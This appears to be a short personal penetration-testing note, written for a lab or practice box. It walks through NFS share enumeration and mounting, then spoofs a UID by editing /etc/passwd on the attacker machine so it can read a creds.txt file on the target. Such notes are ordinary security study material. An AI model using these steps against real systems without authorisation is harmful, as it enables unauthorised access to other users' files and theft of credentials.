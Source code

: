 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
showmount -e $TARGET
```

![[Pasted image 20221115122217.png]]
   
Notice the /home directory

```bash - kali
mkdir ./home
```

```bash - kali
sudo mount -t nfs -o nolock,nfsvers=3 $TARGET:/home ./home/
```

```bash - kali
cd ./home  && ls
```

Digging through, we see a creds file:

![[Pasted image 20221109113447.png | 600]]

Now we create a new user on kali, change it's user id value, then open the file:

```bash - kali
sudo adduser pwn
```

```bash - kali
cat /etc/passwd | grep pwn
```
   
now to change the 1002 to 1014

```bash - kali
sudo sed -i -e 's/1002/1014/g' /etc/passwd
```

```bash - kali
cat /etc/passwd | grep pwn
```
   
```bash - kali
su pwn
```

```bash - kali
cat creds.txt
```

---

```bash - kali
mount -t nfs $TARGET:/Mount/ /MyFolder -no lock
```

![[Pasted image 20220112111950.png]]

![[Pasted image 20220112112052.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

